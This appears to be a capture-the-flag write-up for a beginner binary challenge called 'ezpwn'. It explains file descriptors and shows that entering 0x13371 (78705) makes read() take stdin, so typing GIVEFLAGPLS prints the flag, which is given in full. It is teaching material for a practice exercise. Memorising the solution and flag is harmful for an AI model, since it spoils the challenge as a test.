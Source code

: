 # ezpwn
Wait what? A pwn challenge? Seems like the file isn't really descriptive am i right?

`nc pwn.cysc19.cyberyouth.sg 13200`

## Deployment
1. `cd generate`
2. `make`
3. `cd ../service`
4. `sudo ./build.sh`

- ezpwn
    - SHA1: `11b5e23d98e8f28d71a9571457ad5edffe2e73dc`
    - ELF 32-bit LSB executable

- ezpwn.c
    - SHA1: `0f889f640a776d1aa04d696569e178d0776e68c5`
    - C source code

## Solution
### Quick intro to file descriptors
File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource , File descriptors are represented in C as integers and there are 3 types of file descriptors :
standard input (stdin) , its integer value is 0
standard output (stdout) , its integer value is 1
standard error (stderr) , its integer value is 2

We are given the source code as well as the compiled binary for this challenge. It appears that the `buf` variable needs to match `GIVEFLAGPLS\n`. 

```c
    if (!strcmp("GIVEFLAGPLS\n", buf)) {
        system("/bin/cat /home/ezpwn/flag.txt");
        exit(0);
    }
```

This can be acheived in the two lines.

```c
    int fd = number - 0x13371;
    int len = read(fd, buf, 32);
```

When the file descriptor variable, `fd`, is set to zero, the read system call reads input from stdin. Hence, our "number" in this case is `0x13371` in order to subtract `fd` to zero.

```bash
$ nc 127.0.0.1 13200
Number? 78705
GIVEFLAGPLS
CYS{d35cr1b3_4_f1l3_1n_0n3_1n7363r}

```

### Flag
`CYS{d35cr1b3_4_f1l3_1n_0n3_1n7363r}`